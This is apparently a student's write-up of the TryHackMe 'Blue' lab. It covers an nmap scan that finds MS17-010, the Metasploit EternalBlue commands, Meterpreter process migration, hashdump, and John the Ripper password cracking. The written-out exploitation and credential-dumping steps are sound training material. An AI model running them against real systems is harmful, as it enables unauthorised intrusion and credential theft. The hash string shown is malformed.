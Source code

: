 # 🔒 Cybersecurity Lab Report  
**Platform:** TryHackMe  
**Lab:** Blue  
**Difficulty:** 🟢 Easy  
**Time Estimate:** ⏱️ 30 minutes  

---

## 📌 Table of Contents
- [Overview](#-overview)
- [Recon](#-recon)
- [Gain Access](#-gain-access)
- [Escalation](#-escalation)
- [Cracking](#-cracking)
- [Flags](#-flags)
- [Notes & Observations](#-notes--observations)

---

## 📖 Overview  
This report documents the process of completing the **Blue** lab on TryHackMe.  
The objective was to identify vulnerabilities, exploit the target, escalate privileges, crack credentials, and retrieve system flags.  

---

## 🔍 Recon  
**Task:** Scan the machine.  

I used a custom script I created to automate scanning the target system for vulnerabilities:

```bash
sudo ./grayscan.sh 10.201.120.38

[*] Starting scan... targeting common ports and vulnerabilities
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-16 21:34 PST
Nmap scan report for 10.201.120.38
Host is up (0.34s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|*smb-vuln-ms10-054: false
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|*      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.71 seconds

[*] Scan complete! Now checking for common vulnerabilities...

--- Possible Vulnerabilities ---
Port 135: No common beginner-friendly vulns in cheat sheet
Port 139: SMB: Null session, EternalBlue (MS17-010)
Port 445: SMB: SMBv1 RCE, EternalBlue, WannaCry

[*] Full scan saved to scan_results.txt
```

- **Q1:** How many ports are open with a port number under 1000?  
  **Answer:** 3  

- **Q2:** What is this machine vulnerable to?  
  **Answer:** Microsoft SMBv1 servers (MS17-010)  

---

## 🎯 Gain Access  
**Task:** Find and run the exploitation code against the machine.  

- **Q:** What is the name of the required value when setting options in Metasploit?  
  **Answer:** LHOST and RHOSTS  

**Steps Taken:**  
```bash
msfconsole
search ms17
use exploit/windows/smb/ms17_010_eternalblue
show options
set LHOST <attacker-ip>
set RHOSTS <target-ip>
run
```

**Documentation:**  
First, I launched Metasploit using `msfconsole`. Based on the Nmap scan results, I searched for and selected the `ms17_010_eternalblue` exploit. Then, I set the required options:  
- `LHOST` → my attacking machine’s IP address  
- `RHOSTS` → the target machine’s IP address  

Finally, I executed the exploit to gain access.  

---

## 🚀 Escalation  
**Task:** Convert the shell to Meterpreter, escalate privileges, and stabilize the session.  

- **Q1:** Verify escalation with `getsystem` and `whoami`.  
  **Answer:** I used `getuid` in Meterpreter, and the system was running as `NT AUTHORITY\SYSTEM`.  

- **Q2:** Identify a SYSTEM process ID.  
  **Answer:** The SYSTEM process ID was **1208**.  

- **Q3:** Migrate to that process.  
  **Answer:** `migrate 1208`  

**Steps Taken:**  
```bash
help
getuid
migrate 1208
```

**Documentation:**  
While inside Meterpreter, I used the `help` command to view available options. Running `getuid` confirmed the session was running as `NT AUTHORITY\SYSTEM`. I then located the process ID for `spoolsv.exe` (PID 1208) and migrated to it using `migrate 1208`.  

---

## 🔑 Cracking  
**Task:** Dump and crack password hashes.  

- **Q1:** What is the name of the non-default user?  
  **Answer:** Jon  

- **Q2:** What is the cracked password?  
  **Answer:** alqfna22  

**Steps Taken:**  
```bash
hashdump
echo "8a0384b8sad94219230" > crack.txt
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt crack.txt
alqfna22
```

**Documentation:**  
Inside Meterpreter, I used `hashdump` to list users and password hashes. The target user was **Jon**. I copied the hash into a file (`crack.txt`). Using John the Ripper with the RockYou wordlist, I successfully cracked the hash, revealing the password `alqfna22`.  

---

## 🚩 Flags  

- **Q1:** Flag1 (system root)  
  **Answer:** Located in `C:/`  

- **Q2:** Flag2 (Windows password storage)  
  **Answer:** Located in `C:/Windows/System32/Config`  

- **Q3:** Flag3 (Administrator’s files)  
  **Answer:** Located in `C:/Users/Jon/Documents`  

**Steps Taken:**  
```bash
cd C:/
ls
cat flag1.txt

cd Windows/System32/Config
ls
cat flag2.txt

cd Users/Jon/Documents
ls
cat flag3.txt
```

---

## 📌 Notes & Observations  
Lessons learned from this lab:  
- I practiced using Nmap and enhanced efficiency by creating an automated scan script (`grayscan.sh`). Initially, my scans took nearly an hour, but by limiting the scan to common ports and increasing the timing template (`-T4`), I significantly reduced the scan time.  
- I became more comfortable navigating and using Metasploit modules. While my current understanding is still at a surface level, I now have a clearer idea of how exploits and options are configured.  
- I also gained hands-on experience with John the Ripper for password cracking.  

These skills are valuable for both penetration testing and defensive security roles.  

---

✅ *End of Lab Report*  
